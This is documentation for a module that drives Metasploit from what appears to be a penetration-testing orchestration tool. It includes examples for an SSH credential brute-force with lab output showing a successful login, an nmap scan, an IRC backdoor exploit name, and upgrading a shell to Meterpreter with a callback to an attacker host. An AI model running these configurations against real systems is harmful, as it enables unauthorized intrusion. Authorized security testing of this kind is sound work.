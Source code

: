 
## Description
Module orchestrates [Metasploit Framework](https://github.com/rapid7/metasploit-framework).

## Prerequisites
Metasploit must be accessible from Worker it will be executed on.

## Input parameters

=== "Simple"

    ### `module_name`
    Name of Metasploit module.
    
    | Name          | Type   | Required | Default value | Example value                        |
    |---------------|--------|----------|---------------|--------------------------------------|
    | `module_name` | string | &check;  |               | `unix/irc/unreal_ircd_3281_backdoor` |
    
    ### `datastore`
    Datastore options (variables) to use for the execution.  
    Basically an equivalent to `set OPTION value`.
    
    | Name        | Type   | Required | Default value | Example value         |
    |-------------|--------|----------|---------------|-----------------------|
    | `datastore` | object | &cross;  |               | `{"RHOST": "target"}` |

=== "Custom"

    ### `commands`
    Custom set of commands to execute in an order in the Metasploit console.
    
    | Name       | Type            | Required | Default value | Example value                     |
    |------------|-----------------|----------|---------------|-----------------------------------|
    | `commands` | array\[string\] | &check;  |               | `["use multi/handler", "run -z"]` |

### `timeout`
Number of seconds to wait before the module execution will be terminated.

| Name      | Type    | Required | Default value | Example value |
|-----------|---------|----------|---------------|---------------|
| `timeout` | integer | &cross;  |               | `300`         |

## Examples

### SSH login module
Input:
```yaml
module_arguments:
  module_name: scanner/ssh/ssh_login
  datastore:
    RHOSTS: CHANGE_ME
    USERNAME: vagrant
    PASSWORD: vagrant
```

Output:
```json
{
  "result": "ok", 
  "output": "VERBOSE => True\nBRUTEFORCE_SPEED => 5\nBLANK_PASSWORDS => false\nUSER_AS_PASS => false\nDB_ALL_CREDS => false\nDB_ALL_USERS => false\nDB_ALL_PASS => false\nDB_SKIP_EXISTING => none\nSTOP_ON_SUCCESS => false\nREMOVE_USER_FILE => false\nREMOVE_PASS_FILE => false\nREMOVE_USERPASS_FILE => false\nTRANSITION_DELAY => 0\nMaxGuessesPerService => 0\nMaxMinutesPerService => 0\nMaxGuessesPerUser => 0\nCreateSession => true\nAutoVerifySession => true\nTHREADS => 1\nShowProgress => true\nShowProgressPercent => 10\nRPORT => 22\nSSH_IDENT => SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3\nSSH_TIMEOUT => 30\nSSH_DEBUG => false\nGatherProof => true\nRHOSTS => 192.168.56.51\nUSERNAME => vagrant\nPASSWORD => vagrant\nDisablePayloadHandler => True\n[*] 192.168.56.51:22 - Starting bruteforce\n[+] 192.168.56.51:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant) Linux vagrant-ubuntu-trusty-64 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '\n[!] No active DB -- Credential data will not be saved!\n[*] SSH session 1 opened (192.168.56.50:36169 -> 192.168.56.51:22) at 2022-08-04 17:03:56 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n[*] Auxiliary module execution completed\n",
  "serialized_output": {"session_id": 1} 
}
```

### Running Nmap
```yaml
module_arguments:
  commands:
    - db_nmap --top-ports 100 CHANGE_ME
```

### Upgrade shell session
```yaml
module_arguments:
  module_name: multi/manage/shell_to_meterpreter
  datastore:
    LHOST: {{ attackerHost }}
    SESSION: 1
```

## Troubleshooting
So far so good.

## Output serialization
Only the session ID is serialized.

`serialized_output` contains:

| Parameter name | Parameter description                        |
|----------------|----------------------------------------------|
| `session_id`   | ID of the created session (only if created). |

